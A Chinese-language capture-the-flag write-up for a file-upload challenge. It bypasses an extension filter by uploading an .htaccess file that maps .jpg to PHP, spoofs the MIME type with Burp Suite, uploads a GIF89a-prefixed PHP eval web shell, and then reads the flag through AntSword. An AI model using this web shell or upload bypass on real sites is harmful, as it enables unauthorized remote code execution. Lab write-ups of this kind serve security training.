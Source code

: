 # wp

## 知识点

1. 文件类型绕过: image/jpeg

## 解题

先随便上传一个php文件，可以看到后缀带php的都被禁了

![1](./1.png)

那就考虑用图片马来getshell

先随便输个网址报下错，看下使用的什么中间件（用wappalyzer插件也可）

![2](./2.png)

可以看到为apache。先上传.htaccess文件，这里给出.htaccess文件的内容

```text
AddType application/x-httpd-php .jpg
```

直接上传，报错

![3](./3.png)

可以看到对于文件类型做了过滤。那就burp suite改下文件类型即可

![4](./4.png)

直接send，成功上传

之后便是直接上传图片马，但是对于普通的图片马会报这样的错

![5](./5.png)

这样我们就要构建特殊形式的图片马来进行上传，这样就伪装了php的特性

```php
GIF89a?
<script language="php">eval($_POST['a']);</script>
```

再改为图片格式重新上传，成功

![6](./6.png)

直接蚁剑连接读flag

![7](./7.png)

```text
GXY{WeII_done,you_got_my_she11}
```
